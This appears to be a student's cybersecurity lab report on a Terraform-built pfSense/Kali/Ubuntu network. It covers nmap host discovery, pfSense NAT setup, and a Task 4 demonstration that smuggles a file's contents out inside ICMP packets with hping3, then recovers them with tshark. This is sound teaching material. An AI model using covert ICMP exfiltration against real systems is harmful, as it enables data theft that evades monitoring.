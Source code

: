 # Task 1

The network is created successfully. 

# Task 2

## A) 

Below image shows the successful deployment of the network in terraform. 

Number of added resources: 12

![Terraform deployment](images/CS2-ex1-task1.png)

## B)

The virtual manager appears as below after the terraform deployment. 

![virtual manager](images/CS2-ex1-task2.2.png)

## C)

The LAN configuration in pfsense firewall looks as below. 

![Firewall LAN](images/task2-c-fw-ip.png)

After rebooting the kali machine, the IP configuration is changed. The screen looks as below. 

![kali IP](images/task2-c-kali-ip.png)

The webGUI of pfsense firewall can be accessed through `https://10.0.0.1/`. The screenshot of the interface is attached below.

![pfsesne webGUI](images/pfsense-gui.png)

The Ubuntu server was assigned with IP `10.0.0.12` and the Kali machine with `10.0.0.11`. I did the ping test from ubuntu server to the Kali machine. The ping test was successful. The packet capture result is shown below. 

![ping test](images/task2-c-ping-test.png)

# Task 3

## A)

The nmap scan was done in the kali machine. 

Command: `nmap 10.0.0.0/24`

The results are as below. 

![nmap scan](images/task3-nmap.png)

The results show that there are 3 hosts are present. 
IP addresses: 
* 10.0.0.1
* 10.0.0.11
* 10.0.0.12

The web service can be access from the kali machine. 

## B)

I did the nmap scan using the host machine where the IP is `10.0.2.15/24`. The network `10.0.0.0/24` cannot be discovered and the web server cannot be accessed from the host machine. The results are as follows. 

![nmap from outside](images/task3-b-nmap.png)

## C)

**ICMPv4 Echo:**
  - Command: `sudo nmap -PE 10.0.0.0/24`
  - Running `-PE`, `-PP`, or `-PM` generates the same results.
  - Additionally to running the `nmap` command alone, the MAC address of the virtual NIC in the host machines can be discovered.
  - Results:
   ![ICMP echo](images/task3-c-echo.png)

## D)

The web server can be accessed from the kali machine. 

![Web server](images/task3-a-web.png)

# Task 4

## A)

Below command is used to ping the kali machine from ubuntu server using `hping3`. The IP of Kali machine is `10.0.0.11` and the IP of the server is `10.0.0.12`.

```sudo hping3 -S --icmp 10.0.0.11 --data 1458 --file hackers_data.txt --end```

I created a file in the ubuntu server named `hackers_data.txt`. The file contained below text. 

```txt 
Test data for task 3
```

The packets were successfully transferres to the kali machine. The data sent from server through ICMP packets can be observed inside the ICMP packet received to the Kali machine. Below image shows the packet capture from the wireshark, the content of the file is being transfered through ICMP packets and the sub-field of data inside ICMP packet.

![wireshark output](images/task4-a-wireshark-hping.png)

## B)

Below command was used to pull out data fiels from the pcap file and dump it into a txt file. 

```txt
tshark -T fields -e data.data -r hacker_data.txt > hexdump.txt
```

After successfully creating the `hexdump.txt` file, the data in hex format was converted using the converter. Below image shows the created hexdump.txt file. 

![hexdump.txt](images/task4-b-hexdump.png)

The data inside the hexdump.txt includes several of below text. 

![hexdump data](images/task4-b-data_dump.png)

The conversion of data looks as follows. 

![data conversion](images/task4-b-conversion.png)

# Task 5

* I added a NAT port forwarding to WAN interface of the firewall to direct HTTP traffic coming to the WAN interface, from WAN to the Ubuntu server with IP `10.0.0.12`. 

![NAT config](images/task5-NAT_2.png)

* A firewall rule is automatically added to WAN interface to allow HTTP traffic from any source to pass through. 

![Firewall rule](images/task5-FW_rule_2.png)

* From the configurations I added so far, the connectivity was not established.

![Connectivity](images/connection.png)




